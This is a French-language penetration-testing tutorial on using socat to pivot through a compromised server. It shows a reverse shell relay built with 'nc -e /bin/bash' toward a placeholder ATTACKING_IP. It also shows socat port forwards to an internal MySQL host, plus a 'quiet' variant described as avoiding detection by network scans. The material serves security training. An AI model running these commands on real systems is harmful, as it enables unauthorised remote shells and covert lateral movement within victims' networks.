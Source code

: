 Il est préférable de considérer socat comme un moyen de joindre deux choses ensemble. il crée un lien entre deux emplacements différents. 

- Cela peut être deux ports sur la même machine
- Cela peut être pour créer un relais entre deux machines différentes
- Cela peut être pour créer une connexion entre un port et un fichier sur la machine à l'écoute, ou bien d'autres choses similaires. 

## Reverse shell Relay - Relais shell inverse

Dans ce scénario, nous utilisons socat pour créer un relais nous permettant de `renvoyer un shell inversé` à notre propre machine attaquante. 

- Commençons d'abord par un écouteur netcat sur notre KALI.
- Ensuite, sur le serveur compromis, utilisez la commande suivante pour démarrer le relais :
- De là, nous pouvons ensuite créer un reverse shell vers le port 8000 nouvellement ouvert sur le serveur compromis.

```sh
# KALI
nc -nlvp 4242
```

```sh
# SERVER COMPROMIS
socat tcp-l:8000 tcp:ATTACKING_IP:NETCAT_PORT &
nc  127.0.0.1 8000 -e /bin/bash
```

_Assurez-vous d'abord d'ouvrir le port d'écoute, puis de vous reconnecter à la machine attaquante._

De cette façon, nous pouvons configurer un relais pour envoyer des obus inversés à travers un système compromis, vers notre propre machine attaquante.

## Port Forwarding easy - Redirection de port facile

Le moyen rapide et facile de configurer une redirection de port avec socat consiste tout simplement à ouvrir un port d'écoute sur le serveur compromis et à rediriger tout ce qui y parvient vers le serveur cible. 

> Par exemple, si le serveur compromis est 172.16.0.5 et que la cible est le port 3306 de 172.16.0.10, nous pourrions utiliser la commande suivante (sur le serveur compromis) pour créer une redirection de port :

```sh
socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```

Cela ouvre le port 33060 sur le serveur compromis et redirige l'entrée de la machine attaquante directement vers le serveur cible prévu, nous donnant essentiellement accès à la (probablement la base de données MySQL) fonctionnant sur notre cible de 172.16.0.10. 

L'option `fork` est utilisée pour mettre chaque connexion dans un nouveau processus, et l'option `reuseaddr` signifie que le port reste ouvert après qu'une connexion y est établie. 

Combinés, ils nous permettent d'utiliser le même transfert de port pour plusieurs connexions.

Nous pouvons maintenant nous connecter au port 33060 sur le relais (172.16.0.5) et avoir notre connexion directement relayée à notre cible prévue de 172.16.0.10:3306.

## Port Forwarding Quiet - Transfert de port Silencieux

La technique précédente est simple et rapide, mais elle ouvre également un port sur le serveur compromis, qui pourrait potentiellement être repéré par n'importe quel type d'analyse d'hôte ou de réseau. 

Cette méthode est légèrement plus complexe, mais ne nécessite pas l'ouverture d'un port externe sur le serveur compromis.

- Tout d'abord, sur notre propre machine attaquante:

```sh
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr 
```

Cela ouvre deux ports : 8000 et 8001, créant un relais de port local. Ce qui entre dans l'un sortira de l'autre.

- Ensuite, sur le serveur relais compromis (172.16.0.5 dans l'exemple précédent):

```sh
socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

Cela établit une connexion entre notre port d'écoute 8001 sur la machine attaquante et le port ouvert du serveur cible. 

- Pour utiliser le réseau fictif d'avant:

```sh
socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &
```

Cela créerait un lien entre le port 8000 sur notre machine attaquante et le port 80 sur la cible visée (172.16.0.10), ce qui signifie que nous pourrions accéder au `localhost:8000` navigateur Web de notre machine attaquante pour charger la page Web desservie par la cible : 172.16.0.10 :80 !
